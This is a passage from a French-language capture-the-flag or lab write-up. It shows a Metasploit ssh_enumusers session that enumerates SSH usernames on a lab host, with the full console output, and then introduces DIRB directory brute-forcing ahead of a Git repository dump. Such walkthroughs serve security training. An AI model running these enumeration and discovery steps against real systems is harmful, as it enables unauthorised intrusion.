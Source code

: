 Le module ```ssh_enumusers``` confirme les résultats obtenus précédemment.

```console
root@blinils:~# msfconsole --quiet
[*] Starting persistent handler(s)...

msf > use auxiliary/scanner/ssh/ssh_enumusers
msf auxiliary(scanner/ssh/ssh_enumusers) > set RHOSTS 192.168.56.102
RHOSTS => 192.168.56.102
msf auxiliary(scanner/ssh/ssh_enumusers) > set USER_FILE drupal_users.txt
USER_FILE => drupal_users.txt
msf auxiliary(scanner/ssh/ssh_enumusers) > run

[*] 192.168.56.102:22 - SSH - Using malformed packet technique
[*] 192.168.56.102:22 - SSH - Starting scan
[-] 192.168.56.102:22 - SSH - User 'admin' not found
[-] 192.168.56.102:22 - SSH - User 'anonymous' not found
[+] 192.168.56.102:22 - SSH - User 'sloreman' found
[+] 192.168.56.102:22 - SSH - User 'tmaloney' found
[+] 192.168.56.102:22 - SSH - User 'xbruce' found
[+] 192.168.56.102:22 - SSH - User 'mswanson' found
[+] 192.168.56.102:22 - SSH - User 'jstone' found
[+] 192.168.56.102:22 - SSH - User 'shunter' found
[+] 192.168.56.102:22 - SSH - User 'jingersol' found
[+] 192.168.56.102:22 - SSH - User 'jgrimes' found
[+] 192.168.56.102:22 - SSH - User 'dhart' found
[+] 192.168.56.102:22 - SSH - User 'gprune' found
[+] 192.168.56.102:22 - SSH - User 'jalderman' found
[+] 192.168.56.102:22 - SSH - User 'jgoldman' found
[+] 192.168.56.102:22 - SSH - User 'bdio' found
[+] 192.168.56.102:22 - SSH - User 'hplink' found
[+] 192.168.56.102:22 - SSH - User 'gconnor' found
[+] 192.168.56.102:22 - SSH - User 'sholden' found
[+] 192.168.56.102:22 - SSH - User 'spinkton' found
[+] 192.168.56.102:22 - SSH - User 'jharraway' found
[+] 192.168.56.102:22 - SSH - User 'sswiney' found
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

## Dump du dépôt Git et extraction d'informations sensibles

Poursuivons l'analyse du serveur Web : y a-t-il des répertoires « cachés » présents sur le site ? Pour le savoir, l'outil [__DIRB__](https://tools.kali.org/web-applications/dirb) va se servir d'une liste pré-établie de répertoires afin de déterminer l'arborescence du site. Il s'agit là d'une [attaque par dictionnaire](https://en.wikipedia.org/wiki/Password_cracking), a contrario d'une [attaque par bruteforce](https://en.wikipedia.org/wiki/Brute-force_attack) qui consisterait à tester, de manière exhaustive, toutes les combinaisons possibles : aa, ab, ac... zy zz aaa aab... zzy zzz aaaa aaab... et ainsi de suite. DIRB dispose d'un [large panel de dictionnaires](https://github.com/digination/dirbuster-ng/tree/master/wordlists), ainsi plusieurs résultats sont renvoyés avec le dictionnaire common.txt.
